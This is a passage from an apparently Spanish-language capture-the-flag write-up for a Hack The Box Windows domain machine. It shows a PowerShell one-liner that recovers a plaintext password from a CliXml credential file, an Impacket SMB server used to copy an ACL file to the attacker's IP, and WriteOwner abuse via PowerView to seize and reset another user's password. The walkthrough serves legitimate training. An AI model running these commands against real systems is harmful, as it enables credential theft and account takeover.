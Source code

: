 Revisando en internet encuentro un post donde explican como descifrar este tipo de credencial usando *CliXml* [How To Save and Read Sensitive Data with PowerShell](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx) y obtengo las credenciales en texto claro:

```powershell
powershell "$credential = Import-CliXml -Path cred.xml; $credential.GetNetworkCredential().Password"
```

<img title="" src="https://user-images.githubusercontent.com/55555187/185101288-f7b14fb8-a367-4f57-bc6e-ad5f25dbe4a6.png" alt="image" width="540">

Como el puerto 22 está abierto, trato de conectarme como Tom por SSH consiguiendo una shell. 

Una vez dentro, voy a su escritorio y encuentro una carpeta que contiene *Bloodhound*, *PowerView* y un *CSV* con información sobre las ACL del dominio. 

Lo primero que hago es copiarme el *CSV* a mi máquina para lo cual me levanto un servidor smb con Impacket:

```bash
smbserver.py share $(pwd)
```

Copio el archivo *acls.csv* a mi carpeta *share*:

```powershell
copy acls.csv \\10.10.14.8\share\acls.csv
```

Una vez que tengo el archivo en mi equipo, reviso las lineas que contengan *tom@HTB.LOCAL* que es el usuario que tenemos actualmente.

*Nota:* *awk 'NR == 1 sirve para que la primera linea del archivo siempre se muestra, cosa que es útil en archivos csv donde la primera linea indica que es cada columna.* 

![image](https://user-images.githubusercontent.com/55555187/185351774-accd62c9-d053-47d5-83a2-ab4fd1e9c852.png)

Veo que *tom* tiene el permiso **WriteOwner** sobre *claire@HTB.LOCAL*, que también es un usuario. Con este permiso podemos asignarnos como *owners* del objeto sobre el que tengamos el permiso, en este caso podemos ser *owner* del usuario *claire* pudiendo modificar nuestros permisos sobre dicho usuario.

Para modificar dichos permisos necesito una serie de funciones que vienen implementadas en *PowerView (que estaba en el escritorio de tom x) )*

**TIP:** A la hora de usar *PowerView* recomiendo la siguiente metodología: 

Hago un cat sobre *PowerView*, filtro por todo lo que empiece por *function* y además filtro por *Owner* (ya que el permiso que tengo es *WriteOwner*)

![image](https://user-images.githubusercontent.com/55555187/185356164-9ca29490-a34d-4713-bb22-0e6e9343589e.png)

Una vez que he encontrado el nombre de la función que parece que puede hacerme el apaño, voy al repositorio de *PowerView* en *Github* y busco por esa función para ver los ejemplos de uso: 

![image](https://user-images.githubusercontent.com/55555187/185356338-6be614ea-e06c-4b34-a356-1ebeb40b800e.png)

Una vez que me he dado permisos de *Owner* en el usuario *Claire*, puedo modificar su *ACL* para otorgarme permisos sobre dicho usuario, en este caso he optado por modificar su contraseña (aunque también se podrían hacer más cosas como hacer el usuario *Kerberoasteable* pero en este caso el puerto 88 está cerrado).
